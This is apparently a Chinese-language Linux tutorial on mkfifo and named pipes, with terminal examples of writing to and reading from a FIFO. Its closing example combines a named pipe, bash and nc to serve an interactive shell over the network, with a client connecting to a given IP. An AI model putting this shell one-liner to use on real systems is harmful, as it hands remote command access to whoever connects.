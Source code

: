# Linux mkfifo管道符

## 概述

`mkfifo`命令用于创建FIFO(命名管道符)。

**命名管道符 VS 匿名管道符**

==管道符用于创建程序之间的通信通道==（管道相当于一个通道，使用FIFO策略）

- 匿名管道符`|`
- 我们使用`mkfifo`来创建命名管道符

> 我们可以使用匿名管道符来传递数据，但是这中方式有一个缺陷。只能由同一个祖先进程启动。所以我们可以使用命名管道符（在Linux一切皆文件）

```
terminal01
root in /opt/test λ mkfifo pipe2 #创建一个命名管道符
root in /opt/test λ ll
|rw-r--r-- root root 0 B Thu Jan  7 07:25:45 2021  pipe2     
root in /opt/test λ echo "hello to pipe2" > pipe2  #将需要传输的内容写入管道中，由于是echo进程启动的，所以管道符会一直阻塞echo进程，知道管道符中的内容被读取

----

terminal02
root in ~ λcat < /opt/test/pipe2 #读取管道中内容
       STDIN
   1   hello to pipe2 

```

管道符有三种权限策略（与文件权限相同），我们可以通过`-m`参数来指定

```
root in /opt/test λ mkfifo pipe2 -m 700                                  /0.0s
root in /opt/test λ ll
|rwx------ root root 0 B Thu Jan  7 07:35:53 2021  pipe2                /0.0s
```

## 案例

使用nc创建管道符，实现reserveshell

```
#server side 
root in /tmp mkfifo /tmp/pipe2
root in /tmp λ cat /tmp/pipe2 | /bin/bash -i 2&>1  | nc -l 10086 > /tmp/pipe2 

#client side 
root in /opt/test λ nc 8.135.0.171 10086
```

